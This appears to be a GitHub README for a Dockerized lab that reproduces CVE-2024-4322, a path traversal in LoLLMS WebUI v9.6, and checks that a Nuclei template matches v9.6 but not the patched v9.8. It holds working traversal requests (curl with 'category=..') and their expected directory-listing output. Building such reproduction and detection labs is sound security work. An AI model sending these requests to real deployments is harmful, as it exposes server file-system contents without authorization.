




# CVE-2024-4322: LoLLMS WebUI PoC & Nuclei Validation Lab

This repository provides Dockerized local labs for reproducing
**CVE-2024-4322**, a path traversal vulnerability in LoLLMS WebUI v9.6, and for
validating that the associated Nuclei template does not match LoLLMS WebUI v9.8.

Use this lab only against local, owned, or explicitly authorized targets.

## Vulnerability Summary

The `/list_personalities` endpoint in LoLLMS WebUI v9.6 is vulnerable to path
traversal. The user-controlled `category` parameter is appended to the
`personalities_zoo_path` without sanitization:

```python
personalities_dir = lollmsElfServer.lollms_paths.personalities_zoo_path/f'{category}'
```

By sending `category=..`, the request can escape the intended personalities
directory and list the contents of a parent directory.

Expected vulnerability signal:

```text
category=   -> []
category=.. -> response contains "personalities_zoo"
```

The fixed v9.8 behavior rejects the traversal input before directory listing.

## Lab Matrix

| Environment | Version | Service | Host URL | Expected template result |
| --- | --- | --- | --- | --- |
| Linux vulnerable | v9.6 | `linux-vuln-server` | `http://127.0.0.1:9600` | match |
| Linux patched | v9.8 | `linux-patched-server` | `http://127.0.0.1:9602` | no match |
| Windows vulnerable | v9.6 | `windows-vuln-server` | `http://127.0.0.1:9601` | match |
| Windows patched | v9.8 | `windows-patched-server` | `http://127.0.0.1:9603` | no match |

Run all commands from the directory containing this README.

## Linux Vulnerable Lab

### 1. Start the Server

```bash
docker compose up --build -d linux-vuln-server
docker compose logs -f linux-vuln-server
```

Wait for:

```text
Uvicorn running on http://0.0.0.0:9600
```

Press `Ctrl-C` to stop following logs. The container keeps running.

### 2. Verify the HTTP Behavior

```bash
curl -sS 'http://127.0.0.1:9600/list_personalities?category=' | jq .
curl -sS 'http://127.0.0.1:9600/list_personalities?category=..' | jq .
```

Expected result:

```text
[]
["personalities_zoo","extensions_zoo","bindings_zoo","models_zoo"]
```

The order may vary. The important signal is that the traversal response differs
from the control response and contains `personalities_zoo`.

### 3. Validate with Nuclei

```bash
nuclei -duc -validate -t templates/CVE-2024-4322.yaml
nuclei -duc -u http://127.0.0.1:9600 -t templates/CVE-2024-4322.yaml -debug
```

Expected result:

```text
[CVE-2024-4322:dsl-1] [http] [high] http://127.0.0.1:9600/list_personalities?category=..
```



## Linux Patched Lab

### 1. Start the Server

```bash
docker compose --profile patched up --build -d linux-patched-server
docker compose --profile patched logs -f linux-patched-server
```

Wait for:

```text
Uvicorn running on http://0.0.0.0:9600
```

### 2. Verify the HTTP Behavior

```bash
curl -i 'http://127.0.0.1:9602/list_personalities?category='
curl -i 'http://127.0.0.1:9602/list_personalities?category=..'
```

Expected result:

```text
category=   -> HTTP 200 []
category=.. -> HTTP 400 {"detail":"Detected an attempt of path traversal or command injection. Are you kidding me?"}
```

### 3. Validate with Nuclei

```bash
nuclei -duc -u http://127.0.0.1:9602 -t templates/CVE-2024-4322.yaml
```

Expected result:

```text
[INF] Scan completed ... 0 matches found.
```



## Windows Vulnerable Lab

This requires Docker Desktop in **Windows containers** mode. Run the commands
below from this directory in PowerShell.

### 1. Start the Server

```powershell
docker compose --profile windows up --build -d windows-vuln-server
docker compose --profile windows logs -f windows-vuln-server
```

Wait for:

```text
Uvicorn running on http://0.0.0.0:9600
```

### 2. Verify the HTTP Behavior

```powershell
curl.exe -sS "http://127.0.0.1:9601/list_personalities?category="
curl.exe -sS "http://127.0.0.1:9601/list_personalities?category=.."
```

Expected result:

```text
[]
["bindings_zoo","extensions_zoo","models_zoo","personalities_zoo"]
```

The order may vary. The important signal is that the traversal response differs
from the control response and contains `personalities_zoo`.

### 3. Validate with Nuclei

```powershell
nuclei -duc -u http://127.0.0.1:9601 -t .\templates\CVE-2024-4322.yaml -debug
```

Expected result:

```text
[CVE-2024-4322:dsl-1] [http] [high] http://127.0.0.1:9601/list_personalities?category=..
```



## Windows Patched Lab

This requires Docker Desktop in **Windows containers** mode. Run the commands
below from this directory in PowerShell.

### 1. Start the Server

```powershell
docker compose --profile windows up --build -d windows-patched-server
docker compose --profile windows logs -f windows-patched-server
```

Wait for:

```text
Uvicorn running on http://0.0.0.0:9600
```

### 2. Verify the HTTP Behavior

```powershell
curl.exe -i "http://127.0.0.1:9603/list_personalities?category="
curl.exe -i "http://127.0.0.1:9603/list_personalities?category=.."
```

Expected result:

```text
category=   -> HTTP 200 []
category=.. -> HTTP 400 {"detail":"Detected an attempt of path traversal or command injection. Are you kidding me?"}
```

### 3. Validate with Nuclei

```powershell
nuclei -duc -u http://127.0.0.1:9603 -t .\templates\CVE-2024-4322.yaml
```

Expected result:

```text
[INF] Scan completed ... 0 matches found.
```



## Cleanup

Linux containers:

```bash
docker compose --profile patched down --rmi local
```

Windows containers:

```powershell
docker compose --profile windows down
```

## Requirements

- Docker and Docker Compose.
- Docker Desktop in Windows containers mode for the Windows labs.
- `curl`.
- `jq` for the Linux vulnerable HTTP examples.
- Nuclei for template validation.

If `jq` is not available on the Linux host, use the analyst container:

```bash
docker compose --profile tools run --rm analyst sh
curl -sS 'http://linux-vuln-server:9600/list_personalities?category=' | jq .
curl -sS 'http://linux-vuln-server:9600/list_personalities?category=..' | jq .
```

If Nuclei is not installed on Windows, download the Windows release binary from
`https://github.com/projectdiscovery/nuclei/releases`, unzip it, and run
`nuclei.exe` directly from the extracted directory.

## Lab Setup Notes

The Dockerfiles patch the historical installers during build so the lab is
reproducible today:

- The vulnerable labs clone the `lollms-webui` `v9.6` tag.
- The patched labs clone the `lollms-webui` `v9.8` tag.
- The `lollms_core` submodule URL is rewritten to
  `https://github.com/ParisNeo/lollms_legacy.git` because the old source
  history moved there.
- Version pinning is checked against upstream Git metadata:
  `v9.6` is `e2f2d313cd6ea3fe81dfc4496f985f5b650853b9`, and `v9.8` is
  `8a8e3a1c386321f641a014bf8f7029512ccad411`.

  ```bash
  git ls-remote --tags https://github.com/ParisNeo/lollms-webui.git refs/tags/v9.6 refs/tags/v9.8
  ```

- The corresponding `lollms_core` submodule commits are
  `cfb18f6f1091addf440347322441ab28005a2d3b` for v9.6 and
  `6f45b1ca828e9f75ca3ed38aaf0d04d0f72a0a49` for v9.8, checked with
  `git ls-tree HEAD lollms_core` on each tag checkout.
- `auto_update` and `auto_sync_*` options are disabled to keep each lab pinned.
- Headless config files are injected so the server can start without prompts.
- Heavy dependencies that are not needed for endpoint validation are skipped
  where possible.
- The Windows installers are patched to create their temp directory and to
  avoid stale recursive submodules.

## Patch Rationale

The broken invariant is:

```text
resolved path must stay inside the personalities directory
```

LoLLMS WebUI v9.8 and later address the issue by sanitizing or constraining the
`category` path before it reaches the filesystem directory listing logic. For
real deployments, upgrade LoLLMS WebUI to version `9.8` or later.
